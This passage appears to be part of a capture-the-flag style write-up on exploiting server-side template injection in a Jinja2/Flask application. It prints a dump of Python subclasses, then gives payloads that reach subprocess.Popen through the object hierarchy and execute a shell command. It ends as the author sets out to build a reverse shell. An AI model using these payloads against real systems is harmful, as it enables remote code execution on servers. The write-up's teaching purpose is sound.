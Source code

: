 ```
Attribute'>, <class 'zipfile._ZipDecrypter'>, <class 'werkzeug.local.LocalStack'>, <class 'jinja2.debug.ProcessedTraceback'>, <class 'concurrent.futures._base._AcquireFutures'>, <class 'ellipsis'>, <class 'EncodingMap'>, <class 'module'>, <class 'sqlalchemy.pool.base._ConnDialect'>, <class 'coroutine'>, <class 'flask_login.login_manager.LoginManager'>, <class 'property'>, <class 'sqlite3.Statement'>, <class 'email._parseaddr.AddrlistClass'>, <class 'codecs.StreamRecoder'>, <class 'werkzeug.local.LocalProxy'>, <class 'sqlalchemy.sql.schema._NotAColumnExpr'>, <class 'pickle._Pickler'>, <class 'werkzeug.wrappers.ETagResponseMixin'>, <class 'sqlalchemy.sql.functions._FunctionGenerator'>, <enum 'Enum'>, <class '_frozen_importlib_external._LoaderBasics'>, <class 'jinja2.lexer.Lexer'>, <class 'click._compat._FixupStream'>, <class 'flask_bootstrap.StaticCDN'>, <class 'jinja2.utils.Namespace'>, <class 'getset_descriptor'>, <class 'jinja2.bccache.Bucket'>, <class 'click.core.Context'>, <class 'sqlalchemy.util._collections.ScopedRegistry'>, <class 'jinja2.runtime.LoopContextBase'>, <class 'threading.Condition'>, <class 'coroutine_wrapper'>, <class 'tarfile.TarFile'>, <class 'itsdangerous.Serializer'>, <class 'six._LazyDescr'>, <class 'sqlalchemy.ext.declarative.clsregistry._GetTable'>, <class 'textwrap.TextWrapper'>, <class 'collections.abc.Awaitable'>, <class 'flask_wtf.recaptcha.validators.Recaptcha'>, <class 'float'>, <class 'calendar._localized_day'>, <class '_socket.socket'>, <class 'inspect._empty'>, <class 'email.feedparser.FeedParser'>, <class 'codecs.IncrementalEncoder'>, <class 'click.utils.LazyFile'>, <class 'pickle._Framer'>, <class 'werkzeug.wsgi.SharedDataMiddleware'>, <class 'sqlalchemy.sql.base.DialectKWArgs'>, <class 'sqlalchemy.orm.session.SessionTransaction'>, <class '_pickle.UnpicklerMemoProxy'>, <class 'function'>, <class 'logging.Filter'>, <class '_frozen_importlib.ModuleSpec'>, <class 'flask_sqlalchemy.model.Model'>, <class 'sqlalchemy.orm.events._EventsHold.HoldEvents'>, <class 'sqlalchemy.orm.base.InspectionAttr'>, <class 'werkzeug.datastructures.IfRange'>, <class 'flask.blueprints.BlueprintSetupState'>, <class 'itertools.product'>, <class 'pkg_resources._vendor.pyparsing.ParseResults'>, <class 'flask_bootstrap.CDN'>, <class 'itertools.chain'>, <class 'difflib.Differ'>, <class 'sqlalchemy.sql.selectable.HasSuffixes'>, <class 'method'>, <class 'jinja2.nodes.Node'>, <class 'werkzeug.exceptions.Aborter'>, <class 'collections.abc.Hashable'>, <class 'blinker._utilities._symbol'>, <class 'sqlalchemy.event.base._UnpickleDispatch'>, <class 'sqlalchemy.engine.interfaces.ExceptionContext'>, <class 'werkzeug.wrappers.BaseResponse'>, <class 'jinja2.utils.Joiner'>, <class 'six._SixMetaPathImporter'>, <class 'sqlalchemy.orm.instrumentation.InstrumentationFactory'>, <class 'sqlite3.PrepareProtocol'>, <class 'calendar.Calendar'>, <class 'sqlalchemy.sql.annotation.Annotated'>, <class 'sqlalchemy.engine.url.URL'>]
```

Note that `<class 'subprocess.Popen'>` is one of these subclasses. Some use of the `find()` command for strings in Python shows that I want item number 206.

`{{''.__class__.mro()[1].__subclasses__()[206]}}`

yields

`<class 'subprocess.Popen'>`.

`{{''.__class__.mro()[1].__subclasses__()[206]('ls', shell=True)}}`
 yields

`<subprocess.Popen object at 0x7efffc316080>`.

Great! We've executed a shell command. Now, I want a reverse shell: to get remote code execution, I need to pipe input in from a port, run a command on the box, and pipe the output back out to a remote server. So how shall I do this?

I conducted a quick test locally:
